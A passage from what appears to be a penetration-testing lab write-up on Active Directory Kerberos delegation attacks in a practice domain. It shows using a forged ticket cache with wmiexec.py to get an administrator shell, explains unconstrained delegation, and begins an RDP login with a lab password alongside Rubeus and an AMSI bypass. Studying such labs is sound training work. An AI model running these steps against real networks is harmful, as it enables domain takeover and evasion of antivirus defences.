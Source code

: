 
Then export the ticket:

`export KRB5CCNAME=/home/kali/Documents/delegations/Coercer/coercer/Administrator@CIFS_winterfell@NORTH.SEVENKINGDOMS.LOCAL.ccache`

Now let's use this to connect using `wmiexec.py`:

`wmiexec.py -k -no-pass north.sevenkingdoms.local/administrator@winterfell`

And I got connected:

```bash
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
north\administrator
```

### 6.7.4 Unconstrained Delegation

The server or the service account can authenticate on behalf of the user to any other service.

For this to happen there are two prerequisites:
- Account that wants to delegate an authentication has the **TRUSTED_FOR_DELEGATION** flag in his **UAC - User Account Control** flag.To set this flag, you need to have the **SeEnableDelegationPrivilege** right, which is usually only available for Domain Administrators.
- The user account which will be relayed is **relayable.** To disable relaying capabilities on an account, **NOT_DELEGATED** flag is set. By default, no account on the AD has this flag set are all "relayable." 

During exchanges with the Domain Controller, when the users asks for a TGS, he will specify the SPN of the service he wants to use. At this point the Domain Controller looks for the two prerequisites:
- Is the **TRUSTED_FOR_DELEGATION** flag set in the attributes of the account associated to the SPN.
- Is the **NOT_DELEGATION** flag not set for the requesting user.

If both of these are met, the Domain Controller will respond to the user with a TGS containing standard information, but also contains a copy of the user's TGT in his response, and a new associated session key.

### 6.7.5 Exploiting Unconstrained Delegation

First, get an RDP connection on Winterfell:

`xfreerdp /d:north.sevenkingdoms.local /u:eddard.stark /p:'FightP3aceAndHonor! /v:10.4.10.11 /cert-ignore`

In the Kali Machine prepare a folder with the `Rubeus.exe` and AMSI (Anti-malware Scan Interface) bypass.

In the folder, clone the following github repo for the Rubeus.exe, and keep only the Rubeus.exe file:
